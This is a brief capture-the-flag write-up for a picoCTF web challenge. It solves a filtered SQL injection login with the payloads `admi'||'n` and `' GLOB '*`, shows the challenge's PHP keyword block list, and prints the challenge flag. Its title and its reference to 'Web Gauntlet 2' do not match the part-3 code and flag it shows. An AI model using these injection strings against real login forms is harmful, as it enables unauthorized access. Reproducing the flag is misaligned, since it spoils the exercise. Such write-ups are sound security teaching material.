

# Web Gauntlet - 2

link to the chall - [link](https://play.picoctf.org/practice/challenge/128?page=1&search=web)

---


https://github.com/user-attachments/assets/83e55b7e-9343-4f19-9170-b56eb26515ea


---

Now the part two of the sql challenge.
Here we go again.

On reading this challenge, it had the same filters as that of Web Gauntlet 2, but the limit for characters was reduced.

But the solution for previous challenge will work here as well.

Username - `admi'||'n`
password - `' GLOB '?` or `' GLOB '*`



```php
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
?>
```

the flag is `picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}`
